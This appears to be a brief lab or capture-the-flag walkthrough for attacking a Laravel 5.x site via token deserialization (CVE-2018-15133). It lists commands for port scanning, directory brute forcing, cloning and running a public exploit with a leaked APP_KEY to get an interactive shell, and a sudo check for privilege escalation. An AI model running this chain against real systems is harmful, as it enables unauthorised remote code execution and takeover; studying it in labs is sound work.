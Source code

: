 ### Laravel 5.x Token Deserialization

**1. Port Scan**

```bash
 sudo nmap -sS -sV -sC --top-ports 100 ip_address -oX ip_address
 ```
 
 **2. Web Directory Brute Force**
 
 ```bash
 dirsearch -u http://ip_address
 ```
 
**3. Search posible Laravel 5.x exploit**
 
 ```bash
 searchsploit laravel
 ```
 
**4. Exploit**
 
 ```bash
git clone https://github.com/aljavier/exploit_laravel_cve-2018-15133
cd exploit_laravel_cve-2018-15133/
pip3 install -r requirements.txt

python3 pwn_laravel.py http://ip_address/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= --interactive
```

**5. Privellege Escalation**

```bash
sudo -l

# https://gtfobins.github.io/
```
